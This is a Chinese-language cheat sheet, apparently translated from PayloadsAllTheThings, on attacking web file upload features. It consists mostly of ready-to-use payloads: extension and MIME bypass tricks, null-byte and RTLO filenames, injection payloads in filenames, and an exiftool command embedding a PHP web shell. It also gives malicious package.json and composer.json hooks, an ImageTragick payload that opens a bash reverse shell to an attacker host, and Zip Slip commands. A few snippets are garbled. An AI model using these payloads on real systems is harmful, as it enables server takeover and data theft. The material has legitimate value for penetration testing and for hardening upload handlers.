

# 文件上传系列

> 如果对上传的文件处理不当，可能会带来很大风险。远程攻击者可以上传任意脚本文件，上传成功后可执行任意代码，进而控制网站系统。

## 目录

* [工具](#工具)
* [文件上传攻击思维导图](#文件上传攻击思维导图)
  * [默认扩展名](#默认扩展名)
  * [上传小技巧](#上传小技巧)
  * [文件名漏洞](#文件名漏洞)
  * [图片压缩](#图片压缩)
  * [配置文件](#配置文件)
  * [CVE - ImageMagick](#cve---imagemagick)
  * [CVE - FFMpeg](#cve---ffmpeg)
  * [ZIP](#zip)
  * [Jetty RCE](#jetty-rce)
  * [在线实验](#在线实验)
* [参考](#参考)

## 工具

- [Fuxploider](https://github.com/almandin/fuxploider)
- [Burp > Upload Scanner](https://portswigger.net/bappstore/b2244cbb6953442cb3c82fa0a0d908fa)
- [ZAP > FileUpload AddOn](https://www.zaproxy.org/blog/2021-08-20-zap-fileupload-addon/)

## 文件上传攻击思维导图



### 默认扩展名

* PHP
  
  ```powershell
  .php
  .php3
  .php4
  .php5
  .php7
  
  # 少数情况下可能支持这些后缀，常见于CTF
  .pht
  .phps
  .phar
  .phpt
  .pgif
  .phtml
  .phtm
  .inc
  ```

* ASP
  
  ```powershell
  .asp
  .aspx
  .config
  .cer # (IIS <= 7.5)
  .asa # (IIS <= 7.5)
  shell.asp;1.jpg # (IIS < 7.0)
  shell.soap
  ```

* JSP : `.jsp, .jspx, .jsw, .jsv, .jspf, .wss, .do, .actions`

* Perl: `.pl, .pm, .cgi, .lib`

* Coldfusion: `.cfm, .cfml, .cfc, .dbm`

* Node.js: `.js, .json, .node`

### 上传小技巧

- 使用双重后缀 : `.jpg.php, .png.php5, .php.jpg` 

- 使用反向双扩展名(作用于Apache错误配置，由于管理员的错误配置, AddHandler application/x-httpd-php .php,在有多个后缀的情况下,只要一个文件含有.php后缀的文件即将被识别成PHP文件,没必要是最后一个后缀。利用这个特性,将会造成一个可以绕过上传白名单的解析漏洞。): `示例: .php.jpg, .php.aaa`

- 随机大小写 : `.pHp, .pHP5, .PhAr`

- 00截断(空字节) (针对 `pathinfo()` 有奇效)
  
  * `.php%00.gif`
  * `.php\x00.gif`
  * `.php%00.png`
  * `.php\x00.png`
  * `.php%00.jpg`
  * `.php\x00.jpg`

- 特殊字符
  
  * 后缀名称为点 : `file.php......` , 在Windows中，当创建一个结尾带有点的文件时，这些点将被删除，最终结果为`file.php`。
  * 空格和换行符
    * `file.php%20`
    * `file.php%0d%0a.jpg`
    * `file.php%0a`
  * 从右到左反转 (RTLO): `name.%E2%80%AEphp.jpg` => `name.gpj.php`.
  * 斜杠: `file.php/`, `file.php.\`, `file.j\sp`, `file.j/sp`
  * 利用`./`: `file.jsp/././././.`

- 修改MIME类别 `Content-Type : application/x-php` 或`Content-Type : application/octet-stream` 改为 `Content-Type : image/gif`
  
  * `Content-Type : image/gif`
  * `Content-Type : image/png`
  * `Content-Type : image/jpeg`
  * Content-Type类别字典: [SecLists/content-type.txt](https://github.com/danielmiessler/SecLists/blob/master/Miscellaneous/web/content-type.txt)
  * 双重Content-Type：一次用于不允许的类型，一次用于允许的类型。
    
    ```
    Content-Disposition: form-data; name="cmd" filename="test.jpg"
    Content-Type: application/octet-stream
    Content-Type: image/jpeg
    ```
  
  123
  ------WebKitFormBoundaryxPtv296P4t251LLl--
  ```

- [文件头欺骗](https://en.wikipedia.org/wiki/List_of_file_signatures)
  
  * 部分应用程序根据上传文件的文件头来识别文件类型（不检测上传文件名称后缀），防止上传非指定类型文件，这时候可以原webshell文件中添加白名单文件头从而绕过上传。
    * PNG: `\x89PNG\r\n\x1a\n\0\0\0\rIHDR\0\0\x03H\0\xs0\x03[`
    * JPG: `\xff\xd8\xff`
    * GIF: `GIF87a` 或`GIF8;`

- 使用大小写绕过文件上传黑名单，如Php，JsP，ASp等。

- 在windows系统中使用NTFS数据流绕过黑名单进行上传。假设一个应用系统仅支持php，而应用系统对文件上传功能采用了黑名单限制，后缀名称php被列入黑名单（大小写不敏感）。这时候可以采用NTFS数据流方式绕过，将上传文件名称改为`1.php::$DATA.`，访问webshell时忽略掉`::$DATA.`，即shell地址为`1.php`

### 文件名漏洞

有时候，漏洞不是上传，而是应用程序对文件(名)之后的处理方式。

- SQL时间盲注Payloads例子:  `poc.jpg'(select*from(select(sleep(20)))a)+'.extension`
- 文件包含/目录穿越Payloads例子: `image.png../../../../../../../etc/passwd` 
- XSS Payloads例子: `'">.extension`
- 目录穿越payloads例子:`../../../tmp/lol.png`
- 命令执行payloads例子: `; sleep 10;`

您还可以上传:

- 用于触发XSS的HTML/SVG/XML文件
- 如果中间件支持SSI，可以上传SHTML文件，如果允许执行命令的情况下可RCE
- EICAR文件，用于检查是否存在杀软

### 图片压缩

- 图片元数据，将payload隐藏在元数据中的评论标签中。
- 图片调整大小，以隐藏压缩算法中的payload绕过调整大小。还搞定了 `getimagesize()` 和`imagecreatefromgif()`.
  - [JPG](https://virtualabs.fr/Nasty-bulletproof-Jpegs-l): 使用 createBulletproofJPG.py(文件在`图片压缩`文件夹中)
  - [PNG](https://blog.isec.pl/injection-points-in-popular-image-formats/): 使用 createPNGwithPLTE.php(文件在`图片压缩`文件夹中)
  - [GIF](https://blog.isec.pl/injection-points-in-popular-image-formats/): 使用 createGIFwithGlobalColorTable.php(文件在`图片压缩`文件夹中)

### 具有自定义元数据的图片

创建自定义图片，并使用`exiftool`插入EXIF标签。有关多个EXIF标签的列表，请访问 [exiv2.org](https://exiv2.org/tags.html)

```ps1
convert -size 110x110 xc:white payload.jpg
exiftool -Copyright="PayloadsAllTheThings" -Artist="Pentest" -ImageUniqueID="Example" payload.jpg
exiftool -Comment="<?php echo 'Command:'; if($_POST){system($_POST['cmd']);} __halt_compiler();" img.jpg
```

### 配置文件

如果您尝试将文件上传到：

- PHP 服务器, 关于 [.htaccess](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Configuration%20Apache%20.htaccess) 执行代码的技巧
- ASP 服务器, 关于 [web.config](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Configuration%20IIS%20web.config) 执行代码的技巧
- uWSGI 服务器, 关于 [uwsgi.ini](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Configuration%20uwsgi.ini/uwsgi.ini) 执行代码的技巧

配置文件示例

- [.htaccess](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Configuration%20Apache%20.htaccess)
- [web.config](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Configuration%20IIS%20web.config)
- [httpd.conf](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Configuration%20Busybox%20httpd.conf)
- [\_\_init\_\_.py](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Configuration%20Python%20__init__.py)
- [uwsgi.ini](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Configuration%20uwsgi.ini/uwsgi.ini)

针对某些特定环境，或许您可以上传一个带有定制脚本的JSON文件，尝试覆盖依赖项管理器配置文件。

- package.json
  
  ```js
  "scripts": {
      "prepare" : "/bin/touch /tmp/pwned.txt"
  }
  ```
- composer.json
  
  ```js
  "scripts": {
      "pre-command-run" : [
      "/bin/touch /tmp/pwned.txt"
      ]
  }
  ```

### CVE - ImageMagick

如果后端使用ImageMagick调整图像大小，可以尝试利用公开的漏洞，如ImageTragik。

* ImageTragik示例代码：将以下代码保存为.png后缀，然后上传(ImageMagick , 7.0.1-1)
  
  ```powershell
  push graphic-context
  viewbox 0 0 640 480
  fill 'url(https://127.0.0.1/test.jpg"|bash -i >& /dev/tcp/attacker-ip/attacker-port 0>&1|touch "hello)'
  pop graphic-context
  ```

更多的payloads在`Picture ImageMagick`文件夹中

### CVE - FFMpeg

[Fmpeg HLS SSRF](https://cn.bing.com/search?q=+FFmpeg+HLS+vulnerability&form=QBLH&sp=-1&lq=0&pq=+ffmpeg+hls+vulnerability&sc=10-25&qs=n&sk=&cvid=BB93DBF7C9494052BB0F0F71F9261FB7&ghsh=0&ghacc=0&ghpl=)

### ZIP

上传后自动解压缩ZIP文件时

* Zip Slip：遍历目录以在其他位置写入文件
  
  ```python
  python evilarc.py shell.php -o unix -f shell.zip -p var/www/html/ -d 15
  
  ln -s ../../../index.php symindex.txt
  zip --symlinks test.zip symindex.txt
  ```

### Jetty RCE

将以下XML文件上传到`$Jetty_base/webapp/`目录下

* [JettyShell.xml - From Mikhail Klyuchnikov](https://raw.githubusercontent.com/Mike-n1/tips/main/JettyShell.xml)

## 在线实验

* [Portswigger Labs on File Uploads](https://portswigger.net/web-security/all-labs#file-upload-vulnerabilities)

## 参考

* [Bulletproof Jpegs Generator - Damien "virtualabs" Cauquil](https://virtualabs.fr/Nasty-bulletproof-Jpegs-l)
* [BookFresh Tricky File Upload Bypass to RCE, NOV 29, 2014 - AHMED ABOUL-ELA](https://secgeek.net/bookfresh-vulnerability/)
* [Encoding Web Shells in PNG IDAT chunks, 04-06-2012, phil](https://www.idontplaydarts.com/2012/06/encoding-web-shells-in-png-idat-chunks/)
* [La PNG qui se prenait pour du PHP, 23 février 2014](https://phil242.wordpress.com/2014/02/23/la-png-qui-se-prenait-pour-du-php/)
* [File Upload restrictions bypass - Haboob Team](https://www.exploit-db.com/docs/english/45074-file-upload-restrictions-bypass.pdf)
* [File Upload - Mahmoud M. Awali / @0xAwali](https://docs.google.com/presentation/d/1-YwXl9rhzSvvqVvE_bMZo2ab-0O5wRNTnzoihB9x6jI/edit#slide=id.ga2ef157b83_1_0)
* [IIS - SOAP](https://red.0xbad53c.com/red-team-operations/initial-access/webshells/iis-soap)
* [Arbitrary File Upload Tricks In Java - pyn3rd](https://pyn3rd.github.io/2022/05/07/Arbitrary-File-Upload-Tricks-In-Java/)
* [File Upload - HackTricks](https://book.hacktricks.xyz/pentesting-web/file-upload)
* [Injection points in popular image formats - Daniel Kalinowski‌‌ - Nov 8, 2019](https://blog.isec.pl/injection-points-in-popular-image-formats/)
* [A tip for getting RCE in Jetty apps with just one XML file! - Aug 4, 2022 - PT SWARM / @ptswarm](https://twitter.com/ptswarm/status/1555184661751648256/)
* [Jetty Features for Hacking Web Apps - September 15, 2022 - Mikhail Klyuchnikov](https://swarm.ptsecurity.com/jetty-features-for-hacking-web-apps/)
* [Inyección de código en imágenes subidas y tratadas con PHP-GD  - Spanish Resource - hackplayers](https://www.hackplayers.com/2020/03/inyeccion-de-codigo-en-imagenes-php-gd.html)
* [A New Vector For “Dirty” Arbitrary File Write to RCE - Doyensec - Maxence Schmitt and Lorenzo Stella](https://blog.doyensec.com/2023/02/28/new-vector-for-dirty-arbitrary-file-write-2-rce.html)
* [apache多后缀文件解析漏洞复现](https://zhuanlan.zhihu.com/p/423856461)